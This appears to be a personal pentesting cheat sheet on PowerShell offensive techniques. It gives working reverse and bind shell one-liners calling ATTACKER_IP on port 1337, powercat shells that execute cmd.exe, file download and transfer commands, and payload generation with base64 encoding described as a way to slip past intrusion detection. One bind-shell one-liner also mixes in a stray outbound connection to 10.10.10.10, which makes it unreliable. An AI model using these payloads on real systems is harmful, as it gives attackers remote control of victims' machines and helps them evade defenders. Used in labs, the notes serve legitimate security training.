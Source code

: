 # Powershell

* Set `ExecutionPolicy` to `Unrestricted`, run `powershell` as admin:
```
Set-ExecutionPolicy Unrestricted
Y
```

* Check `ExecutionPolicy` status:
```
Get-ExecutionPolicy
```

* Comments in `powershell` scripts using `#`, `<#` and `#>`
```powershell
# This is a comment
<#
This is inside a block comment
#>
```

* File Transfer / Downloading with powershell, `new-object` instantiates a new `.NET` framework or `.COM` object, in our case, we are creating an instance of `WebClient` under the namespace of `System.Net`. This class contains a public function, `DownloadFile`, which takes two parameters, source location in the form of a `URI`, and a target location. (where the downloaded file will be stored)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://localhost/file','C:\Users\saccharide\Desktop\file')"
```

## Bind Shell & Reverse Shell
* A `bind shell` is when the victim binds `/bin/bash` to a port and is listening on its machine for attacker to connect to it and run command, but this is mostly likely blocked by firewall since the attacker is coming from the outside world, and is viewed as insecure network. This leds to `reverse shell`.
* A `reverse shell` is when the attacker creates a server and makes the victim connects to the attacker's machine. By defualt, firewalls are configured to deny access from insecure network (attacker's) to secure network (victim's), but they allow access from secure network to the insecure network. This means we can makes the victim to initiate the connection to attacker, and executes `/bin/bash` upon established connection.

## Reverse Shell!
* `iex` executes the string as command, similar to running `bash -c` or `powershell -c`, running command 
```
$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);

$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
```

Final setup:
```
Attacker:
nc -lvnp 1337

Victim:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
```

## Bind Shells
* Bind shell 
```
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
$listener.Stop();
```

* Final Setup
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337); $listener.start();$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop();"
```

## Powercat
* `powercat` is essentially the Windows' verison of `netcat`.
* Dot-Soucring, kind of like loading `.bashrc`, will only be avaiable for the current powershell session, and will need to be reloaded every time if want to use.
```
. .\powercat.ps1
powercat -h
```

### File Transfer
* `-c` client mode, and we will need to specify the receiver's IP, `-p` will need the receiver's port number, `-i` specifies the local input file we want to transfer
```
Reciver:
nc -lnvp 1337 > receive.ps1

Sender:
powercat -c RECEIVER_IP -p RECEIVER_PORT -i C:\Users\saccharide\powercat.ps1
```

### Reverse shell
* Again, `reverse shell` is where the attacker starts a listener, and makes the victim initiate the connection
```
Attacker:
nc -lnvp 1337

Victim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe
```

### Bind Shell
* Again, `bind shell` is where the victim starts the listener and wait for attacker to connect to it to run shell commands.
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powercat -l -p 1337 -e cmd.exe
```

### Stand-Alone Payloads
* `-g` option will generate a payload and we can redirect the output of this to a file, and powershell can run the generated payload directly
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -g > reverse-shell.ps1
./reverse-shell.ps1
```

* Since most `IDS` will be able to detect such simple payload, we can encode it to `base64` with `-e` option, and we can use run it with `powershell -E`
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -ge > reverse-shell.ps1
powershell.exe -E CONTENT_OF_REVERSE-SHELL.ps1
```
